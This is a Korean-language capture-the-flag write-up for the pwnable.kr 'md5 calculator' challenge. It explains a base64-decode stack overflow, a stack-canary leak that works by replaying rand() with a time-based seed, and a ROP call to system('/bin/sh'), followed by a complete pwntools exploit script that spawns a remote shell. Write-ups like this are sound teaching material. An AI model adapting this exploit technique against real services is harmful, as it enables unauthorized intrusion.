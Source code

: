 # [pwnable.kr] md5 calculator

> We made a simple MD5 calculator as a network service.
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
> hint : this service shares the same machine with pwnable.kr web service
>
> Running at : nc pwnable.kr 9002

## Bug

![image](https://github.com/user-attachments/assets/7df0091e-f3e1-4d24-8ff6-67b2b06b30c7)

`g_buf`에는 `0x400`바이트까지 입력할 수 있는데, 최대로 입력할 경우 base64 decode하면 `0x300`바이트가 된다. 하지만 decode한 문자열을 저장하는 `v3`의 size는 `0x200`이므로 stack buffer overflow가 발생할 수 있다.

## Exploit

### Leak canary

![image](https://github.com/user-attachments/assets/92d0bcaa-210b-47bf-98c6-9aa11f1ea27f)

Captcha는 `my_hash()`로 생성되는데,

![image](https://github.com/user-attachments/assets/dfe4524d-d882-42e4-8db9-2ce2b1a467dd)

`rand()`로 생성된 랜덤 값들과 canary를 조합해서 만들어진다.

`srand()`로 시드를 똑같이 현재 시각으로 설정해 주면 `rand()`의 반환값들을 모두 재현할 수 있기 때문에 captcha로부터 canary를 알아낼 수 있다.

### ROP

`process_hash()`의 return address를 덮어서 ROP를 할 수 있다. `g_buf`에 `"/bin/sh"`를 넣어서 사용하고, 바이너리에 포함된 `system()` 함수를 호출하여 shell을 획득할 수 있다.

### Full code

```python
# ex.py

from pwn import process, remote, p32, log, pause
from ctypes import CDLL
from base64 import b64encode

r = remote("pwnable.kr", 9002)

system_plt = 0x8048880  # PLT of system()
g_buf = 0x804B0E0  # g_buf


# generate random values

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")

libc.srand(libc.time(0))
v2 = libc.rand()
v3 = libc.rand()
v4 = libc.rand()
v5 = libc.rand()
v6 = libc.rand()
v7 = libc.rand()
v8 = libc.rand()
v9 = libc.rand()


# captcha

r.recvuntil(b"Are you human? input captcha : ")
captcha = r.recvline()[:-1]
r.sendline(captcha)


# leak canary

captcha = int(captcha)
canary = captcha - v6 + v8 - v9 - v4 + v5 - v3 - v7
while canary < 0:
    canary += 0x100000000
log.info("canary: " + hex(canary))


# ROP

payload = b"A" * 0x200
payload += p32(canary)
payload += b"A" * 0xC

# system("/bin/sh")
payload += p32(system_plt)  # return address of process_hash()
payload += b"A" * 0x4
payload += p32(g_buf + 0x3F8)  # address of "/bin/sh"

payload = b64encode(payload).ljust(0x3F8, b"A") + b"/bin/sh"

r.sendlineafter(b"Encode your data with BASE64 then paste me!\n", payload)


r.interactive()
```

![image](https://github.com/user-attachments/assets/ea219dcb-a9b2-496d-b6de-c8ac29aa7f14)

